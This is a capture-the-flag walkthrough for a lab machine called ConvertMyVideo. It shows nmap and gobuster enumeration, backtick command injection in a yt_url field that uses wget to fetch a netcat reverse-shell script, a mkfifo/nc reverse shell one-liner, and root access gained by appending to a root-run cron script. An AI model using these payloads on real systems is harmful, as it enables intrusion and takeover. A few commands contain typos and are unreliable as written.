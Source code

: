 # ConvertMyVideo

> RedAiden

## Enumeration

### Nmap

Start a basic nmap scan

`nmap -sC -sV 10.10.204.129`
```
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 65:1b:fc:74:10:39:df:dd:d0:2d:f0:53:1c:eb:6d:ec (RSA)
|   256 c4:28:04:a5:c3:b9:6a:95:5a:4d:7a:6e:46:e2:14:db (ECDSA)
|_  256 ba:07:bb:cd:42:4a:f2:93:d1:05:d0:b3:4c:b1:d9:b1 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 02:98:EB:98:E4:25 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
We can see port 80 open running Apache.

### gobuster

Run a gobuster scan to find hidden directories

`gobuster dir -u http://10.10.204.129:80 -w /usr/share/wordlists/dirb/big.txt`
```
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/admin (Status: 401)
/images (Status: 301)
/js (Status: 301)
/server-status (Status: 403)
/tmp (Status: 301)
```
- We can see an admin panel, but it asks for an unkown password.

## Exploitation
When you enter the website you can see the convert my video application. We can try and analyze the requests using burpsuite to look for command execution.

1. Open burpsuit and in the proxy tab, make sure intercept is on
2. In your browser make sure to have the setting to proxy your traffic through burp (127.0.0.1 8080)
3. Type anything into the field in the convert my video app and click convert
4. Burpsuite should intercept the request.
   - We can see that it has a `yt_url` field
   - If we replace the contents of the field with a command using back ticks we can see that it executes once we send it
   - This can be exploited by sendind a Netcat reverse shell via a wget command from a local http server
5. Create a NC reverse shell in your machine:
```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f' > nc_shell
```
6. Start a python http server in the same directory as your file:
```bash
python -m SimpleHTTPServer
```
7. In burpsuite, change the field into a wget command
```
yt_url=`wget${IFS}10.10.0.1:8000/nc_shell`
```
8. Start a nc listener on your machine: `nc -lvnp 1234`
9. Run the script in the target machine by changing again the content of the yt_url field
```
yt_url=`bash${IFS}nc_shel;l`
```
10. The listener should get the reverse shell

## Privilege Escalation

1. Once in the reverse shell, do `ls` to find an `/admin` folder
2. Inside the admin folder you'll find the user flag `cat admin/flag.txt`
3. There's another folder called `/tmp`. If we see its contents we find a clean.sh script
4. If we upload an automated scan script like `LinEnum.sh` or `linpeas.sh` we can find that the `clean.sh` script foudn in the tmp folder runs as a scheduled task as root. We can abuse this to get the root flag
5. Append the code to be executed to the script
```
echo 'cat /root/root.txt > root_flag' >> clean.sh
```
6. Wait a few seconds for the script to be executed automatically. Then run `ls` to check if the file `root_flag` generated with our root flag.